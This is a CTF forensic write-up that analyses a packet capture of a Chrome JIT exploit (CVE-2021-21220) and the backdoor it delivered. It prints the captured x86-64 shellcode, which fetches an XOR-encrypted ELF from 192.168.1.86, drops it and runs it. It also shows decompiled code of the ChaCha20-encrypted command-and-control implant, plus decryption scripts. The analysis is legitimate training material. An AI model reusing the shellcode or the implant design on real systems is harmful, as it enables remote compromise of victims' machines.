








# [ WriteUp/Notes ] One Click  | Forensic - THCon CTF 2025 

## By: Haaloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Scenario: 
S.N.A.F.U's leader, Axel Vaughn, has recently noticed slowdowns and unusual behavior on his personal computer. He fears that his computer may have been compromised. He is, however, careful about his internet browsing and claims not to have downloaded anything suspicious.
<br> Axel provided us with a network capture that was made in his local network. Your mission is to investigate this potential attack and assess the extent of the damage. <br> If you identify something, retrieve the IPv4 address and port of the server used to deliver the attack, as well as the CVE number of the vulnerability exploited.<br />

2. Tools :
- [Wireshark](https://www.wireshark.org/)
- [IDA Decompiler](https://hex-rays.com/ida-free) 

## How to solve? 

### 1st Challenge 

- For the first challenge in the `One Click` series, we need to identify the exact **server**, **port**, and the **CVE number** that the threat actor used to deliver the attack, which can cause an effect on the local system.


- > Flag format: `THC{1.2.3.4:5678-CVE-XXXX-YYYYY}`

- To solve this challenge, start by opening the provided `.pcap` file using **Wireshark**. 



- Once the capture file is loaded, apply the filter `http` to narrow down the packets related to HTTP traffic. Examine each HTTP packet carefully and **follow the HTTP stream** for each connection to observe the full request and response data.



- While analyzing the streams, a suspicious request can be found in **TCP stream 46**. Follow this stream by right-clicking on the packet and choosing **“Follow → HTTP Stream”**. Look closely at the request—pay attention to any unusual payloads, suspicious URLs, or exploit code that is being sent to the target server. This stream will likely reveal the **IP address** and **port** of the attacking server.



- After doing some research on the response from that packet, We found a report that explains the incident and discovered that it was related to `CVE-2021-21220`. Here is the report:
 -> [Case Report](https://www.zerodayinitiative.com/blog/2021/12/15/exploitation-of-cve-2021-21220-from-incorrect-jit-behavior-to-rce)

#### Constructed Flag:
`THC{192.168.1.86:8000-CVE-2021-21220}`


### 2nd Challenge

- For the second challenge in the `One Click` series, we need to identify the exact file name that the malicous code dropped in the local computer. 

- > Flag format: `THC{/path/to/file}`

- To solve this challenge we need to understand the flow of the response in the `46th tcp stream`. it show us that the the response has the malicious shellcode that ready to use. 

```js
var shellcode = new Uint8Array([0xe8,0x5a,0x0,0x0,0x0,0xc3,0x48,0xc7,0xc0,0x39,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3b,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x2,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x0,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x1,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x3c,0x0,0x0,0x0,0xf,0x5,0x48,0xc7,0xc0,0x29,0x0,0x0,0x0,0xf,0x5,0xc3,0x48,0xc7,0xc0,0x2a,0x0,0x0,0x0,0xf,0x5,0xc3,0xf3,0xf,0x1e,0xfa,0x55,0x48,0x89,0xe5,0x48,0x81,0xec,0x0,0x10,0x0,0x0,0x48,0x83,0xc,0x24,0x0,0x48,0x83,0xec,0x30,0xe8,0x8a,0xff,0xff,0xff,0x85,0xc0,0xf,0x85,0x40,0x1,0x0,0x0,0xba,0x0,0x0,0x0,0x0,0xbe,0x1,0x0,0x0,0x0,0xbf,0x2,0x0,0x0,0x0,0xe8,0xb3,0xff,0xff,0xff,0x89,0x45,0xf0,0x48,0xc7,0x45,0xd0,0x0,0x0,0x0,0x0,0x48,0xc7,0x45,0xd8,0x0,0x0,0x0,0x0,0x66,0xc7,0x45,0xd0,0x2,0x0,0x66,0xc7,0x45,0xd2,0x6f,0x4f,0xc7,0x45,0xd4,0xc0,0xa8,0x1,0x56,0x48,0x8d,0x4d,0xd0,0x8b,0x45,0xf0,0xba,0x10,0x0,0x0,0x0,0x48,0x89,0xce,0x89,0xc7,0xe8,0x81,0xff,0xff,0xff,0xba,0xed,0x1,0x0,0x0,0xbe,0x41,0x0,0x0,0x0,0x48,0x8d,0x5,0xe2,0x0,0x0,0x0,0x48,0x89,0xc7,0xe8,0x2d,0xff,0xff,0xff,0x89,0x45,0xec,0x48,0xc7,0x45,0xf8,0x0,0x0,0x0,0x0,0xeb,0x69,0xc7,0x45,0xf4,0x0,0x0,0x0,0x0,0xeb,0x3b,0x8b,0x45,0xf4,0x48,0x98,0xf,0xb6,0x8c,0x5,0xd0,0xef,0xff,0xff,0x48,0x8b,0x45,0xf8,0x83,0xe0,0xf,0x48,0x89,0xc2,0x48,0x8d,0x5,0xcf,0x0,0x0,0x0,0xf,0xb6,0x4,0x2,0x31,0xc1,0x89,0xca,0x8b,0x45,0xf4,0x48,0x98,0x88,0x94,0x5,0xd0,0xef,0xff,0xff,0x48,0x83,0x45,0xf8,0x1,0x83,0x45,0xf4,0x1,0x8b,0x45,0xf4,0x48,0x98,0x48,0x39,0x45,0xe0,0x77,0xba,0x48,0x8b,0x45,0xe0,0x89,0xc2,0x48,0x8d,0x8d,0xd0,0xef,0xff,0xff,0x8b,0x45,0xec,0x48,0x89,0xce,0x89,0xc7,0xe8,0xcb,0xfe,0xff,0xff,0x48,0x8d,0x8d,0xd0,0xef,0xff,0xff,0x8b,0x45,0xf0,0xba,0x0,0x10,0x0,0x0,0x48,0x89,0xce,0x89,0xc7,0xe8,0xa8,0xfe,0xff,0xff,0x48,0x89,0x45,0xe0,0x48,0x83,0x7d,0xe0,0x0,0xf,0x85,0x6f,0xff,0xff,0xff,0x8b,0x45,0xf0,0x89,0xc7,0xe8,0xa3,0xfe,0xff,0xff,0x8b,0x45,0xec,0x89,0xc7,0xe8,0x99,0xfe,0xff,0xff,0xba,0x0,0x0,0x0,0x0,0xbe,0x0,0x0,0x0,0x0,0x48,0x8d,0x5,0x17,0x0,0x0,0x0,0x48,0x89,0xc7,0xe8,0x58,0xfe,0xff,0xff,0xbf,0x0,0x0,0x0,0x0,0xe8,0x80,0xfe,0xff,0xff,0xeb,0x1,0x90,0xc9,0xc3,0x2f,0x74,0x6d,0x70,0x2f,0x73,0x79,0x73,0x74,0x65,0x6d,0x64,0x2d,0x70,0x72,0x69,0x76,0x61,0x74,0x65,0x2e,0x6c,0x6f,0x63,0x6b,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x0,0x56,0x9d,0xbd,0xf,0xdc,0x70,0x11,0x7,0xaa,0xb9,0xb0,0xb0,0x80,0xf,0xe2,0x11]);

var shellbuf = new ArrayBuffer(shellcode.length);
var dataview = new DataView(shellbuf);
```

- After that, We tried using CyberChef to decode the shellcode with the `From Hex` recipe. We found some hardcoded strings, which We assume are paths where the file is dropped.



#### Constructed Flag:
`THC{/tmp/systemd-private.lock}`

### 3rd Challenge and 4th Challenge

- For the third challenge in the `One Click` series, we need to perform reverse engineering on the shellcode to understand what the threat actor did on the local computer. We also assume that it will be correlated with the next stream in the PCAP file.

- For the reverse engineering part, we dump the previous cyberchef value and be a file. After that, we use IDA to decompile the file and found out a function in it. The decompiled function looks like this: 

```c
// SUB_5F
__int64 sub_5F()
{
  __int64 result; // rax
  __int64 v1; // rcx
  __int64 v2; // rcx
  __int64 v3; // rdx
  __int64 v4; // rcx
  char v5[48]; // [rsp+0h] [rbp-1030h] BYREF
  __int64 v6[2]; // [rsp+1000h] [rbp-30h] BYREF
  unsigned __int64 v7; // [rsp+1010h] [rbp-20h]
  int v8; // [rsp+101Ch] [rbp-14h]
  int v9; // [rsp+1020h] [rbp-10h]
  int i; // [rsp+1024h] [rbp-Ch]
  __int64 v11; // [rsp+1028h] [rbp-8h]

  result = sub_6(); // forking
  if ( !(_DWORD)result )
  {
    v9 = sub_4B(); // open socket 
    v6[0] = 0x5601A8C04F6F0002i64; //192.168.1.86:28495
    v6[1] = 0i64;
    sub_55(v6, 16i64); // connect
    v8 = sub_1A(v1, 493i64); //open 
    v11 = 0i64;
    while ( 1 )
    {
      v7 = sub_24(v5, 4096i64); // read
      if ( !v7 )
        break;
      for ( i = 0; v7 > i; ++i )
        v5[i] ^= *((_BYTE *)&unk_1F0 + (v11++ & 0xF));
      sub_2E(v5, (unsigned int)v7); //write 
    }
    sub_38(); //close 
    sub_38(); //close 
    sub_10(v2, 0i64);
    return sub_42(v4, v3);
  }
  return result;
}
```

- In the disassembled code above, several syscall functions are called. We can use this [link](https://gpages.juszkiewicz.com.pl/syscalls-table/syscalls.html) to better understand the purpose of each syscall. I’ve already added comments for each syscall to make it easier to follow. Basically, the code establishes a socket connection to the `v6` variable, which can be explained as follows:


```c
v6[0] = 0x5601A8C04F6F0002i64;

//Wrote in little endian: 02 00 6F 4F C0 A8 01 56

and it has the structure of sruct like below:

struct sockaddr_in {
    sa_family_t    sin_family; // 2 bytes
    in_port_t      sin_port;   // 2 bytes
    struct in_addr sin_addr;   // 4 bytes (IPv4)
};

so it can be conclude like this: 
```
| Offset | Field      | Bytes             | Value (Hex) |
|--------|------------|-------------------|-------------|
| 0x00   | sin_family | 02 00             | 0x0002      | 
| 0x02   | sin_port   | 6F 4F             | 0x6F4F  [28495] |
| 0x04   | sin_addr   | C0 A8 01 56       | IP: 192.168.1.86  |


and the written data can we see in the pcap that comes from `192.168.1.86:28495` spesifically in tcp stream 49 and will be encrypted using xor with key of `unk_1F0`. The unk_1F0 can we see in IDA. 



```py
unk_1F0 = "56 9D BD 0F DC 70 11 07 AA B9 B0 B0 80 0F E2 11"
```

- For decryption, we just need to XOR the data again with the key, which reveals another ELF file. 

```py
hexxkey = bytes.fromhex("56 9D BD 0F DC 70 11 07 AA B9 B0 B0 80 0F E2 11".strip())

# you can look up on tcp stream 49
ct = '''
29d8f149de7...SNIP....c701107
'''.strip()

ct = bytearray.fromhex(ct)

pt = []
for i in range(len(ct)):
    ct[i] ^= hexxkey[i % len(hexxkey)]
    pt.append((ct[i]))

file = open("bin.elf", "wb")
file.write(bytes(pt))
    
```

- After that, we can decompile the new ELF file using IDA to continue the analysis. After open it with IDA, we can see the main function that seems interested as show below:


```c
v9 = __readfsqword(0x28u);
sleep(0x1Eu);
gen_params(&params);
ChaCha20_init(&ctx, &params, &unk_B060, 0LL);
fd = socket(2, 1, 0);
addr.sa_family = 2;
*(_WORD *)addr.sa_data = htons(0xB95Cu);
*(_DWORD *)&addr.sa_data[2] = 1442949312;
connect(fd, &addr, 0x10u);
write(fd, &params, 0x2CuLL);
while ( 1 )
{
  memset(&s, 0, 0x1000uLL);
  v5 = read(fd, &s, 0x1000uLL);
  if ( v5 <= 0 )
    break;
  ChaCha20_xor(&ctx, &s, v5);
  if ( s == -8531 )
  {
    if ( v8 == 88 )
    {
      handle_execute(fd, &s);
    }
    else if ( v8 <= 0x58u )
    {
      switch ( v8 )
      {
        case 'W':
          handle_write(fd, &s, "w");
          break;
        case 'A':
          handle_write(fd, &s, "a+");
          break;
        case 'R':
          handle_read(fd, &s);
          break;
      }
    }
  }
}
```

- As you can see, it is used to encrypt data using ChaCha20, as shown in the call `ChaCha20_init(&ctx, &params, &unk_B060, 0LL);`. This function requires the `key` and `iv` to be included in the `params` parameter. The `params` parameter is generated by the `gen_params` function shown above. That function looks like this:


```c
int __fastcall gen_params(__int64 a1)
{
  FILE *stream; // [rsp+18h] [rbp-8h]

  stream = fopen("/dev/urandom", "r");
  fread((void *)a1, 1uLL, 0x20uLL, stream);
  fread((void *)(a1 + 32), 1uLL, 0xCuLL, stream);
  return fclose(stream);
}
```

- In the `gen_params` function, we can see that it separates the 48 bytes of data into 32 bytes for the key and the remaining 16 bytes for the IV. Both the 48-byte data and the encrypted payload can be found in **TCP stream 50** in the PCAP file. After this, we just need to create a decryption script.



Decryption Script: 

```py
from Crypto.Cipher import ChaCha20
from Crypto.Util.Padding import unpad


enc = bytes.fromhex('f7cc293e064a362eea43ca1eb4b0f4ea2d98abaf95c4f6d244a421ca3df430761aab7376b42ef75e0c6e3fd6')

cipher = ChaCha20.new(key=enc[:32], nonce=enc[32:])

cts = ["a9b388a32e",
"c19b1e79ff387f5917cbd91c884ad893f9465ff52c0c5f930ef61553a876d31c73e5ab0a15c212907236562c83ab5b49f0465680a27465bb219bd92079daeff3de79ad3e7d2c3cce42e6107a432f018ac3a42d635c83c863698061a66337d320b238e7bc0d621f2a9e1ff2b9ba2bf33b9428234b06a0c98bfadfdc995bdeb27006f34cf7f8b019d9",
"44ed3e78d50317e56077f2926d5729ec657d0d0fc0d98909ecf16666b1e92efd9e7ffcf24f94d300b8404af8064a5209cddba31a7c1d47c3f19a923328435a40252cc7416733ae1fa94b2da0b12e42ac181f99c70964d74d1ecc5d4fdac77d97",
"5896174a",
"9e0606d0d5b718d90727cf9fdd6d373336bc7e02e9c75c1ddbc856db54",
"97bc9bcc6c046e4c25d488820fa5f43cd9b12652f1b01758fd6fc458ee56d6d9711cba2234cb21f94fc03c74eaffa30c74106d90fd3eb88a85d53f15ef13f1b64452055cd9fff12a4844b85177ab4f2b3728e28efab356cdb39fc2d3bd8d4be3b7b141888cf5ca1a9e36e3b11d0f2b09cc8cf9ed9f49b8a7ff3ae5e73754a955cc3332fe69dd6c7c52a4f13d9b6d9db747c019bd36f1f8b8a11806e05f270ce06ac294a9afb7812269d372a0899f9be1d7a4ddf2766d5db7222edde85159139693619b827e714cdc46033c78105ab41ee098d2e22313cee1233216076e3ce423a9df1e6d390c9b7e4a99722894dfadd9896992cbcbb635da214fb19d00d391f8fe56fffeaf5944a1fb609f6d8bcd12a5931698cb075a8e819d5fd26910b1700bc34fbc9b4659bf1928739e6a4e344702b06741f8f55103d5c877afe0e938ec1695cdb4c7c996746fb2054842fb01c4a6620f6d274246f5f7154781c9ccb87a394825e5308934d86b383f901092bdb6bfe1ee3a08cfd035f45ade8bd767207525410633b691d072bbfa6dac24873696c5d2f9347b3237680ca982d8c622ec035b26f40facb8319c6e57e0e717ef4a91c157474c5e396a870caed59502e23de048ca8470fabb49eee7f464b13996fc35b9",
]

for ct in cts:
    ct = bytes.fromhex(ct)
    pt = cipher.decrypt(ct)
    print(pt)
```


The result should looks like this:


- For the first flag, we can see it encoded in base64 using echo command, and the second flag, we can see it hardcoded in the decrypted text. 

 


#### 3rd Challenge Flag
Flag: `THC{y0u_sh0uld_upd4t3_y0ur_chr0m3-155a24e9}`

#### 4th Challenge Flag
Flag: `THC{b3tt3r_r0t4t3_ur_pr1v4t3_k3Y-26ccb918}`


## Links and Credit:
- Thanks to jeri for give me a noice guidance^^
- Thanks to THCon CTF for an amazing event XD
- https://gpages.juszkiewicz.com.pl/syscalls-table/syscalls.html
- https://www.zerodayinitiative.com/blog/2021/12/15/exploitation-of-cve-2021-21220-from-incorrect-jit-behavior-to-rce


